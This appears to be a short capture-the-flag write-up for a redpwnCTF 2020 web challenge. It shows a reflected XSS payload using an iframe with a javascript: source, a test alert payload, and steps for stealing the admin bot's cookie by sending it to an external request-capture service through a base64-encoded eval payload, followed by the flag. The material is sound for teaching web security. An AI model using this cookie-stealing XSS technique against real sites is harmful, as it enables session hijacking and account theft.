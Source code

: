 **Challenge:** https://static-static-hosting.2020.redpwnc.tf/

Reflected XSS Payload: `<iframe src="javascript:<JS code to receive the flag>"`

Test [`<iframe src="javascript:alert(document.domain)">`](https://static-static-hosting.2020.redpwnc.tf/site/#PGlmcmFtZSBzcmM9ImphdmFzY3JpcHQ6YWxlcnQoZG9jdW1lbnQuZG9tYWluKSI+)

The flag will be the Admin's cookie. You only need to send a paylaod to Admin and make a redirect to your HTTP server with Admin's cookie.

Create an HTTP server or you can use some online solutions like https://webhook.site/ or https://requestbin.com/.

Use this [javascript code](https://gist.github.com/EffectRenan/9e85ddc199668e7b56decd88c875ef6e) to generate a payload which use `eval` function.
  - Edit the variable host with your URL.
  - Execute: `node eval-charcode.js | base64`. ***Ps: Base64 encode is necessary to exploit it.***


Final payload: `https://static-static-hosting.2020.redpwnc.tf/#<base64 encode generated>`

Send this URL to Admin at `https://admin-bot.redpwnc.tf/submit?challenge=static-static-hosting`

**Flag:** flag{wh0_n33d5_d0mpur1fy}
